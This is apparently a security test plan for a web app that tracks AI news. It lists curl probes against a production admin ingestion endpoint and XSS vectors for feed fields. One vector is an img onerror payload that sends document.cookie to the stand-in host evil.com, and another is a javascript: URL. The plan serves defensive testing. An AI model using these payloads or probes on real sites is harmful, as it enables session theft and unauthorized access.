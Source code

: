 ```bash
# Test 1: No API key
curl -X POST "https://agitracker-production-6efa.up.railway.app/v1/admin/trigger-ingestion"
# Expected: 403 Forbidden
# Actual: 403 {"detail":"Invalid or missing API key"} ✅

# Test 2: Empty string
curl -X POST "https://agitracker-production-6efa.up.railway.app/v1/admin/trigger-ingestion" \
  -H "x-api-key: "
# Expected: 403
# Actual: ?

# Test 3: Wrong key
curl -X POST "https://agitracker-production-6efa.up.railway.app/v1/admin/trigger-ingestion" \
  -H "x-api-key: wrong-key-12345"
# Expected: 403
# Actual: ?

# Test 4: Case variation
curl -X POST "https://agitracker-production-6efa.up.railway.app/v1/admin/trigger-ingestion" \
  -H "X-Api-Key: <real-key>"  # Different case
# Expected: 403 (case sensitive?)
# Actual: ?

# Test 5: Timing attack (brute force single character at a time)
# Current code: x_api_key != settings.admin_api_key
# This does character-by-character comparison
# Vulnerable to timing attacks to discover key length/characters?
```

---

### 2. XSS Injection Vectors

```typescript
// If attacker controls arXiv RSS or company blog feed:

// Test 1: Script in title
{
  "title": "<script>alert('XSS')</script>Test Paper",
  "summary": "Legit summary"
}
// Rendered as: {event.title}
// React escapes by default → Should be safe
// But verify: Does title ever go through dangerouslySetInnerHTML elsewhere?

// Test 2: Event handler in summary
{
  "title": "Normal Title",
  "summary": "<img src=x onerror='fetch(\"https://evil.com?cookie=\"+document.cookie)'>"
}
// Rendered as: {event.summary}
// React escapes → Should be safe
// But what about LLM analysis.summary? Could GPT-4o return HTML?

// Test 3: JavaScript URL
{
  "title": "Normal Title",
  "source_url": "javascript:alert(document.domain)"
}
// Rendered as: <a href={event.source_url}>
// Browser will execute javascript: URLs!
// Has rel="noopener noreferrer" but still XSS risk

// Test 4: Data URL with script
```
